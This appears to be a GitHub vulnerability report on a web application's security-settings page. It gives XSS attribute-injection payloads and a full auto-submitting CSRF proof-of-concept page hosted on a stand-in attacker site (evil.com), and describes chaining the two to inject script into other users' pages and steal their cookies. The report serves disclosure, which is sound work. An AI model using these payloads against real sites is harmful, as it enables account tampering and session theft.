 # XSS
1、	Log in later to the security settings page.
 ![maze](https://github.com/Kevil-hui/bug-report/blob/master/pic/1.jpg)  
2、	Click save and intercept the package. It is found that the real name is URL encoded and other parameters are transmitted in clear text.
  ![maze](https://github.com/Kevil-hui/bug-report/blob/master/pic/2.jpg)  
3、	XSS PAYLOAD:1" onclick=alert(1)//   " onfocus=alert(1) autofocus ;'
You can set the submitted parameter of any of the five table boxes to 1 "onclick = alert (1) / /, and then replay the data package.
Because the onclick event needs to be triggered by clicking the table box, we can use the onfocus event and its autofocus attribute to automatically trigger the onfocus event, and modify the payload to: "onfocus = alert (1) autofocus;"
  ![maze]( https://github.com/Kevil-hui/bug-report/blob/master/pic/3.jpg)  
 
4、	XSS triggered successfully.
  ![maze]( https://github.com/Kevil-hui/bug-report/blob/master/pic/4.jpg)  
  
  
# CSRF
1、CSRF POC
Intercepts the request packet corresponding to "setting the security problem", because it is plaintext transmission, CSRF POC can be easily constructed, as follows

<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://target.com/jsxsd/grsz/grsz_xggrxx.do" method="POST" id="csrf">
      <input type="hidden" name="realName" value="aa" />
      <input type="hidden" name="pwdQuestion1" value="11" />
      <input type="hidden" name="pwdAnswer1" value="3a3a" />
      <input type="hidden" name="pwdQuestion2" value="1" />
      <input type="hidden" name="pwdAnswer2" value="1&quot; onfocus=alert(/hacked!/) autofocus ;" />
      <input type="hidden" name="pageSize" value="101" />
      <input type="hidden" name="edit" value="11" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
<script>
    document.getElementById("csrf").submit();
</script>
</html>

2、Save the page to my server (simulating the attacker's server) at http://evil.com/jwcsrf.html
3、After confirming the login status, I will visit http://evil.com/target.com/jsxsd/jwcsrf.html
4、After accessing CSRF, x s s will be triggered automatically, because changing the password needs to verify the original password. You can inject XSS page into other users' background through CSRF, and get user cookies by xss
  ![maze]( https://github.com/Kevil-hui/bug-report/blob/master/pic/5.jpg)  
